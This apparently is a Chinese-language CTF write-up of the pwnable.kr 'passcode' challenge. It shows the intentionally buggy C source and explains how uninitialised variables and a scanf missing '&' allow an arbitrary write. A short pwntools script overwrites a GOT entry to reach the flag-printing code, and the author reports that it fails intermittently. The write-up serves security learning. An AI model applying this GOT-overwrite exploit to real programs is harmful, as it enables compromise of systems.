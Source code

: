 ```yaml
---
layout: post
title: 【pwnable.kr】passcode_任意地址写
date: 2018-12-16
categories: blog
tags: 
description: 
---
```


## 简介
passcode是一道任意地址写的问题，不过解题过程中碰到了一些诡异的情况(解题脚本概率性失败，至今不解)……

## passcode原题
```
#include <stdio.h>
#include <stdlib.h>

void login(){
    int passcode1;
    int passcode2;

    printf("enter passcode1 : ");
    scanf("%d", passcode1);
    fflush(stdin);

    // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
    printf("enter passcode2 : ");
        scanf("%d", passcode2);

    printf("checking...\n");
    if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
        exit(0);
        }
}

void welcome(){
    char name[100];
    printf("enter you name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);
}

int main(){
    printf("Toddler's Secure Login System 1.0 beta.\n");

    welcome();
    login();

    // something after login...
    printf("Now I can safely trust you that you have credential :)\n");
    return 0;   
}
```

## 解题思路
题目共2个函数，

welcome: 输入100个字节，并打印该100个字节

login: 验证passcode1和passcode2，验证通过则打印flag，否则退出

但login函数中存在两个问题：

1) passcode1和passcode2使用前未初始化

2) scanf("%d", passcode1)不正确使用，第2个参数未取地址，正确用法为scanf("%d", &passcode1)

注：由于问题2，导致passcode1和passcode2是无法直接赋值的。

这两个问题将导致：

1) passcode1可以任意赋值

纳尼？！不是刚刚说passcode1无法直接赋值么？

淡定，用gdb调试一下就能发现，passcode1虽然无法直接赋值，但是由于未初始化，它会复用welcome函数中输入的100字节的最后4字节，通过修改这4字节，就能任意赋值passcode1

2) passcode1值作为地址指向的内存任意修改

scanf("%d", &value)的第2个参数本应为地址值，将输入的值写入&value地址所指向的内存

scanf("%d", passcode1)中，我们则将输入的值写入passcode1作为地址值所指向的内存，即*passcode1

因此，这是一道任意地址写的题目。

剩下的就简单了，通过修改got.plt表，将print函数对应的got地址值修改为获得flag的地址就行了。（当然修改其他函数也行，只要是在退出前能执行到的函数即可）

## 解题过程
根据解题思路，我们需要做两件事：

1) 在got.plt表中找到print函数的地址()

![](http://pbj242n2a.bkt.clouddn.com/pwnable_pic/pwnable_picpasscode-got.plt.PNG)

2) 找到打印flag的地址

![](http://pbj242n2a.bkt.clouddn.com/pwnable_pic/pwnable_picpasscode-stack.PNG)

构造解题脚本如下，直接在服务器上运行
```
from pwn import *
p = process('./passcode')
p.send('a'*96 + '\x00\xa0\x04\x08')
p.sendline('‭134514147‬')
p.recv(512)
```

得到flag

![](http://pbj242n2a.bkt.clouddn.com/pwnable_pic/pwnable_picpasscode-success.PNG)

注：上述脚本在服务器运行概率性失败

![](http://pbj242n2a.bkt.clouddn.com/pwnable_pic/pwnable_picpasscode-fail.PNG)